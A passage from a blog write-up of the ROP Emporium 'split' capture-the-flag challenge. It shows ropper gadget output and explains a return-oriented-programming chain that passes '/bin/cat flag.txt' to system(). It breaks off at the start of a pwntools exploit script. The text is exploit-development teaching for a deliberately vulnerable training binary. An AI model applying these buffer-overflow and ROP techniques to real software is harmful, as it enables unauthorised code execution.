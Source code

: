 ```
root@Valkyrie:~/Documents/courses/ropemporium/1-split# ropper -f split
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
Gadgets
=======
[...snip...]
0x00000000004006b0: pop rbp; ret;
0x0000000000400883: pop rdi; ret;
0x0000000000400881: pop rsi; pop r15; ret;
[...snip...]
91 gadgets found
```

Ropper identified that on address `0x00400883` theres a `pop rdi; ret`, which is easily verified in radare2 with `pdi 2 @ 0x00400883`

![pop rdi instruction](assets/images/posts/2019/08/ropemporium-1-split/image-12.png)

### Constructing the ROP Chain

Now that we've identified the 3 parts we need in order to print the flag, its due time to start the assembly (No pun intended). This is something that we have to do in a specific order, which is more important in the later challenges but easier to understand now.

In order to call system with the string, we need to place the string into the RDI register before the system call. And since the `pop rdi` takes the _next stack address_ and pops it into the register, the pop call needs to be right before the string address. so the chain have to look something like this

```
[junk] + [pop rdi] + [usefulString] + [system]
```

Which is easily constructed in our exploit code, now that we have all the parts needed.

## Split

This time we'll go straight to pwntools, but you can substitute the names for binary addresses if you want. So the different parts we need just to reiterate are

- Junk - which is `'A'*40` in order to control RIP and execute our own addresses
- usefulString - `exe.symbols.usefulString` the address to `/bin/cat flag.txt`
- System() - `exe.symbols.system` to create the system call
- pop rdi - `0x00400883` to put the next stack address onto the proper register

And in the final exploit we'll use pwntools function p64(address) in order to convert a memory address into a packed string.

### Final Exploit
```python
#Author: Christoffer.Claesson@Securitybits.io
#Blog: https://blog.securitybits.io/2019/08/10/ropemporium-1-split-64-bit/

#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('split')

host = args.HOST or '127.0.0.1'
port = int(args.PORT or 31337)
```